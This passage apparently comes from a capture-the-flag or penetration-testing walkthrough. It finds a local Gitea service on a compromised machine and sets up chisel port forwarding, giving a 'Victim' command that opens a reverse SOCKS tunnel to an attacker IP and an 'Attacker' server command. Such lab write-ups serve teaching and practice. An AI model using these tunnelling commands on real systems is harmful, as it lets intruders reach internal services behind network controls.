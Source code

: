 ```bash
$ cat index.html

<!DOCTYPE html>
<html lang="en-US" class="theme-">
<head>
 <meta charset="utf-8">
 <meta name="viewport" content="width=device-width, initial-scale=1">
 <title> Gitea: Git with a cup of tea</title>
```

We see that the local `Gitea` service is running, but it’s available only from browser, so we can use `chisel` to make a port forwarding on our local machine.

**Victim:**

```bash
./chisel_1.7.7_linux_amd64 client 10.10.16.2:3000 R:5000:socks 
```

**Attacker:**&#x20;

```bash
./chisel_1.7.7_linux_amd64 server --port 3000 -v --reverse --socks5
```

After the connection is established, you must also set the proxy in the browser settings on the previously specified port (5000):
